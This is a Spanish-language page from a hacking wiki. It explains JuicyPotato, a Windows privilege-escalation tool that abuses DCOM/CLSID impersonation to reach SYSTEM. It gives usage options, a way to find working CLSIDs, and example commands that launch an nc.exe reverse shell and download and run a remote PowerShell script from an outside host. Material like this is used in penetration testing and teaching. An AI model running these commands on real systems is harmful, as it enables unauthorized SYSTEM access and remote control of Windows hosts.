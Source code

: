 # JuicyPotato

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato no funciona** en Windows Server 2019 y Windows 10 build 1809 en adelante. Sin embargo, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) se pueden usar para **aprovechar los mismos privilegios y obtener acceso a nivel `NT AUTHORITY\SYSTEM`**. _**Ver:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (abusando de los privilegios dorados) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_Una versión azucarada de_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, con un poco de jugo, es decir, **otra herramienta de escalada de privilegios locales, de cuentas de servicio de Windows a NT AUTHORITY\SYSTEM**_

#### Puedes descargar juicypotato de [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Resumen <a href="#summary" id="summary"></a>

[**Del Readme de juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) y sus [variantes](https://github.com/decoder-it/lonelypotato) aprovechan la cadena de escalada de privilegios basada en [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [servicio](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) teniendo el oyente MiTM en `127.0.0.1:6666` y cuando tienes privilegios `SeImpersonate` o `SeAssignPrimaryToken`. Durante una revisión de la build de Windows encontramos una configuración donde `BITS` estaba intencionalmente deshabilitado y el puerto `6666` estaba ocupado.

Decidimos armar [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG): **Saluda a Juicy Potato**.

> Para la teoría, consulta [Rotten Potato - Escalada de Privilegios de Cuentas de Servicio a SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) y sigue la cadena de enlaces y referencias.

Descubrimos que, además de `BITS`, hay varios servidores COM que podemos abusar. Solo necesitan:

1. ser instanciables por el usuario actual, normalmente un “usuario de servicio” que tiene privilegios de suplantación
2. implementar la interfaz `IMarshal`
3. ejecutarse como un usuario elevado (SYSTEM, Administrador, …)

Después de algunas pruebas, obtuvimos y probamos una lista extensa de [CLSID interesantes](http://ohpe.it/juicy-potato/CLSID/) en varias versiones de Windows.

### Detalles jugosos <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato te permite:

* **CLSID objetivo** _elige cualquier CLSID que desees._ [_Aquí_](http://ohpe.it/juicy-potato/CLSID/) _puedes encontrar la lista organizada por SO._
* **Puerto de escucha COM** _define el puerto de escucha COM que prefieras (en lugar del 6666 codificado)_
* **Dirección IP de escucha COM** _vincula el servidor a cualquier IP_
* **Modo de creación de procesos** _dependiendo de los privilegios del usuario suplantado puedes elegir entre:_
* `CreateProcessWithToken` (necesita `SeImpersonate`)
* `CreateProcessAsUser` (necesita `SeAssignPrimaryToken`)
* `ambos`
* **Proceso a lanzar** _lanzar un ejecutable o script si la explotación tiene éxito_
* **Argumento del proceso** _personaliza los argumentos del proceso lanzado_
* **Dirección del servidor RPC** _para un enfoque sigiloso puedes autenticarte en un servidor RPC externo_
* **Puerto del servidor RPC** _útil si deseas autenticarte en un servidor externo y el firewall está bloqueando el puerto `135`…_
* **MODO DE PRUEBA** _principalmente para fines de prueba, es decir, probando CLSIDs. Crea el DCOM e imprime el usuario del token. Ver_ [_aquí para pruebas_](http://ohpe.it/juicy-potato/Test/)

### Uso <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Pensamientos finales <a href="#final-thoughts" id="final-thoughts"></a>

[**Del Readme de juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Si el usuario tiene privilegios `SeImpersonate` o `SeAssignPrimaryToken`, entonces eres **SYSTEM**.

Es casi imposible prevenir el abuso de todos estos Servidores COM. Podrías pensar en modificar los permisos de estos objetos a través de `DCOMCNFG`, pero buena suerte, esto va a ser un desafío.

La solución real es proteger cuentas y aplicaciones sensibles que se ejecutan bajo las cuentas `* SERVICE`. Detener `DCOM` ciertamente inhibiría este exploit, pero podría tener un impacto serio en el sistema operativo subyacente.

De: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Ejemplos

Nota: Visita [esta página](https://ohpe.it/juicy-potato/CLSID/) para una lista de CLSIDs para probar.

### Obtener un shell reverso de nc.exe
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Lanzar un nuevo CMD (si tienes acceso RDP)

![](<../../.gitbook/assets/image (300).png>)

## Problemas de CLSID

A menudo, el CLSID predeterminado que utiliza JuicyPotato **no funciona** y el exploit falla. Por lo general, se requieren múltiples intentos para encontrar un **CLSID funcional**. Para obtener una lista de CLSIDs para probar en un sistema operativo específico, debes visitar esta página:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Verificando CLSIDs**

Primero, necesitarás algunos ejecutables además de juicypotato.exe.

Descarga [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) y cárgalo en tu sesión de PS, y descarga y ejecuta [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). Ese script creará una lista de posibles CLSIDs para probar.

Luego descarga [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(cambia la ruta a la lista de CLSID y al ejecutable de juicypotato) y ejecútalo. Comenzará a probar cada CLSID, y **cuando el número de puerto cambie, significará que el CLSID funcionó**.

**Verifica** los CLSIDs funcionales **usando el parámetro -c**

## Referencias

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
